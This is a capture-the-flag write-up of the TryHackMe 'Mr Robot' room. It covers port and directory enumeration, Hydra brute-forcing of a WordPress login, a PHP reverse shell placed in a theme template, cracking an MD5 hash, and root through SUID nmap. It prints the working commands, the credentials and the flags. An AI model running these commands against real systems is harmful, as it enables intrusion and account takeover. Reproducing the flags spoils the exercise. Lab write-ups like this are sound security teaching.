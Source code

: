 # Room: Mr Robot

## General Info
- **Room link:** [Mr Robot](https://tryhackme.com/room/mrrobot)

## Description

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners intermediate users. There are 3 hidden keys located on the machine, can you find them?

## Provided Files / Links
- [x] Target Machine IP (10.10.48.69) => created host robot.thm

## Enumeration / Recon
- Ports Enumeration

`nmap -sV robot.thm -O`

```
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-09 03:15 EDT
Nmap scan report for robot.thm (10.10.48.69)
Host is up (0.022s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 3.13 (89%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%), Linux 5.4 (88%), Linux 3.12 (87%), Linux 3.2 - 3.5 (87%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.05 seconds

```

  - Notes:
    - Seems like SSH is closed
    - HTTP is open
    - Target machine OS seems to be Linux

- Website visit

A series of scenes from the TV show are displayed when you select commands from a terminal.
When selecting the commands, I get some prints in the console such as:

```
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : prepare", "Video", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : prepare" ]
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : Help", "Features", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : Help" ]
Array [ "ROUTE:", "fsociety" ]
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : fsociety", "Video", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : fsociety" ]
Array [ "ROUTE:", "question" ]
Array(5) [ {\u2026}, "Mr. Robot : Who is Mr. Robot : FSociety Gallery : Photo 1", "Gallery", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : FSociety Gallery" ]
```

- Directories Enumeration

`gobuster dir -u http://10.10.48.69 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster.txt`

 - /admin => redirect to /admin/index.html but something is broken here
 - /login => redirect to /wp-login.php (WordPress website)
 - /license => `what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?`
 - /readme => `I like where you head is at. However I'm not going to help you. `
 - /robots => (of course :-)) `fsocity.dic` and well `key-1-of-3.txt`

I downloaded the `fsocity.dic` dictionnary (pretty sure it will be usefull later).
With this finding, I immediately went to http://robot.thm/key-1-of-3.txt and found the 1st flag: **073403c8a58a1f80d943455fb30724b9**

## Exploitation / Analysis

### Wordpress Website

#### Credentials search


Before running any WP vulnerability scanner, I played around the login form. I first tried to find exploits with the reset password feature but I didn't find anything relevant. I then noticed the following error message when trying random username/password pairs in the login form: `ERROR: Invalid username.`
This is a bad authentification implementation and I'm going to try bruteforcing the credentials in 2-steps:
  
1st step: bruteforce the username ---- 2nd step: bruteforce the password with the correct username

In the previous /robots directory, I found a `fsocity.dic` dictionnary and I'll use it to find the username.
I had a quick look at the login POST request to find the correct username and password parameters.

**1st Step**:
Hydra command: `hydra -L fsocity.dic -p testpass 10.10.48.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`
Result: `[80][http-post-form] host: 10.10.48.69   login: Elliot   password: testpass`
The username is **Elliot**.

**2nd Step**:
I will try to use the fsocity.dic first (858160 words) before using a bigger wordlist.
Hydra command: `hydra -l Elliot -P fsocity.dic 10.10.48.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"`
The password is **ER28-0652**.

#### Website access

With the credentials, I was able to log in.
I then had a quick look at the plugins (11 plugins, a vulnerability assessment can be done later).
I went to the users section and found another user **krista Gordon** with the username **mich05654**.
In the user's page, the following text in the Biographical info: **another key?**.
I went on the website http://mrrobot.wikia.com/wiki/Krista_Gordon that was listed in the page to try my luck but didn't find any relevant information (I just found this sentence at the top of the page  **Communication is key,Elliot.**, but really didn't look into it too long).

There was not useful information in the other pages and I wanted to try to exploit the theme editor setting via RCE.
I used a php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pasted it in the archives (archive.php) template page and changed the IP and port.

I then created a listener `nc -nlvp 33456` on my machine.
I accessed the reverse shell on http://10.10.48.69/wp-content/themes/twentyfifteen/archive.php and I was in the target machine.

### Target Machine Access


I stabilized the shell `python -c 'import pty; pty.spawn("/bin/bash")'`.
I am now a daemon user in the system.
I cannot get root access right away.
When looking into the home directory, I found a robot directory and was able to locate the second key and an encrypted password:
```
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
I don't have the permission to read the key yet but i can read the hash.

Here comes John the Ripper to crack the md5 hash `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` and the result `abcdefghijklmnopqrstuvwxyz`.
I can now switch to the robot user (`su robot`) with the password and cat the 2nd key **822c73956184f694993bede3eb39f959**.

For privilege escalation, I downloaded `linpeas.sh` in the /tmp directory and executed the script.
I found this information that I can exploit: `-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap` (listed in the Files with interesting Permissions section).
In the https://gtfobins.github.io/gtfobins/nmap/ page, I found that nmap can be used to break out from restricted environments by spawning an interactive system shell on older versions (in this machine nmap version is 3.81).

I then used the following commands:
```
nmap --interactive
nmap> !sh
```
And I am now root.
I found the last flag in the root folder **04787ddef27c3dee1ee161b21670b4e4**.

## Final considerations

I actually didn't notice that the page /license that was found during directories enumeration was scrollable.
At the bottom of the page was the following string `ZWxsaW90OkVSMjgtMDY1Mgo=` that was giving me the correct username/password pair for the WordPress website authentification (**elliot:ER28-0652** when you decode it).
